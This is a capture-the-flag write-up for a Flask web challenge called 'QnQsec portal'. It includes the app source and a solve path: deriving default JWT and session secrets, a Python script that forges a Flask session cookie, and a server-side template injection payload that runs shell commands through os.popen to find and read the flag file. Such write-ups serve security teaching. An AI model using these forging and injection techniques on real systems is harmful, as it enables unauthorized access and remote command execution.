






# QnQsec portal

## Files Provided

`app.py`:

```python
import os
import sqlite3
import secrets
import hashlib
from hashlib import md5
from datetime import datetime, timedelta, timezone

import jwt
from flask import (
    Flask, request, render_template, redirect, session,
    flash, url_for, g, abort, make_response
)

from admin_routes import admin_bp,generate_jwt


BASE_DIR = os.path.abspath(os.path.dirname(__file__))
SECRET_DIR = os.path.join(BASE_DIR, 'secret')
FLAG_PATH = os.path.join(SECRET_DIR, 'flag.txt')
FLAG_PREFIX = 'QnQsec'


def ensure_flag():
    os.makedirs(SECRET_DIR, exist_ok=True)
    if not os.path.exists(FLAG_PATH):
        with open(FLAG_PATH, 'w') as f:
            f.write(f"{FLAG_PREFIX}{{{secrets.token_hex(16)}}}")


ensure_flag()


app = Flask(__name__)
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
app.config['JWT_EXPIRES_MIN'] = 60


app.register_blueprint(admin_bp)


DB_PATH = os.path.join(BASE_DIR, 'users.db')


def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DB_PATH, timeout=10)
        g.db.row_factory = sqlite3.Row
    return g.db


@app.teardown_appcontext
def close_db(_exc):
    db = g.pop('db', None)
    if db is not None:
        db.close()


def init_db():
    with sqlite3.connect(DB_PATH, timeout=10) as db:
        db.execute('PRAGMA journal_mode=WAL')
        db.execute('drop table if exists users')
        db.execute('create table users(username text primary key, password text not null)')
        
        db.execute('insert into users values("flag", "401b0e20e4ccf7a8df254eac81e269a0")')
        db.commit()


if not os.path.exists(DB_PATH):
    init_db()


@app.route('/')
def index():
    return redirect(url_for('login'))


@app.route('/sign_up', methods=['GET', 'POST'])
def sign_up():
    if request.method == 'GET':
        return render_template('sign_up.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('sign_up.html')

    try:
        db = get_db()
        db.execute(
            'insert into users values(lower(?), ?)',
            (username, md5(password.encode()).hexdigest())
        )
        db.commit()
        flash(f'User {username} created', 'message')
        return redirect(url_for('login'))
    except sqlite3.IntegrityError:
        flash('Username is already registered', 'error')
        return render_template('sign_up.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('login.html')

    db = get_db()
    row = db.execute(
        'select username, password from users where username = lower(?) and password = ?',
        (username, md5(password.encode()).hexdigest())
    ).fetchone()

    if row:
        session['user'] = username.title()

        
        role = "admin" if username.lower() == "flag" else "user"
        token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])

        resp = make_response(redirect(url_for('account')))
        resp.set_cookie("admin_jwt", token, httponly=False, samesite="Lax")
        return resp

    flash('Invalid username or password', 'error')
    return render_template('login.html')


@app.route('/logout')
def logout():
    session.pop('user', None)
    resp = make_response(redirect(url_for('login')))
    resp.delete_cookie("admin_jwt")
    return resp


@app.route('/account')
def account():
    user = session.get('user')
    if not user:
        return redirect(url_for('login'))
    if user == 'Flag':
        return render_template('account.html', user=user, is_admin=True)
    return render_template('account.html', user=user, is_admin=False)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False, use_reloader=False)
```

## Approach

Firstly, a login screen is displayed.



From the source code, it's clear that we need to login as "Flag", but we only have its md5-hashed password. [John the Ripper](https://github.com/openwall/john) with `rockyou.txt` couldn't decrypt it.

Registering with some username ("user52") and password ("pass") and then logging in sets two cookies: `admin_jwt` and `session`



On [jwt.io](https://www.jwt.io/), decoding the `admin_jwt` cookie value gives a payload that contains `"sub":"hello", "role":"User"`

```python
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
```

On the same website, we can verify if a given JWT key is valid or not for the provided token. The SHA256 hash of `jwtpepper:qnqsec-default` worked! So, the value of `base` is `qnqsec-default`.



Now, we can encode a new jwt token with `"sub":"Flag", "role":"admin"`; and use Flask to create a new session token with `"user":"Flag"`



```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

def generate_flask_session(payload, secret_key):
    app = Flask(__name__)
    app.secret_key = secret_key

    si = SecureCookieSessionInterface()
    serializer = si.get_signing_serializer(app)

    return serializer.dumps(payload)

if __name__ == "__main__":
    SECRETKEY = "40913aa300c33db34d976a59975adf18d90a246a" # SHA1 of 'pepper:qnqsec-default'
    payload = {"user": "Flag"}
    cookie_value = generate_flask_session(payload, SECRETKEY)
    print(cookie_value)

```

Set these cookies to the updated values and go to the `/account` endpoint.





A form is displayed which asks us to provide a *template* which it will render. This is obviously **SSTI**. Verified by rendering `{{ 7 * '7'}}`, it outputs `7777777`

Step-by-step payload to get the flag:

```text
{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name *flag*').read() }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /app/secret/flag.txt').read() }}
```
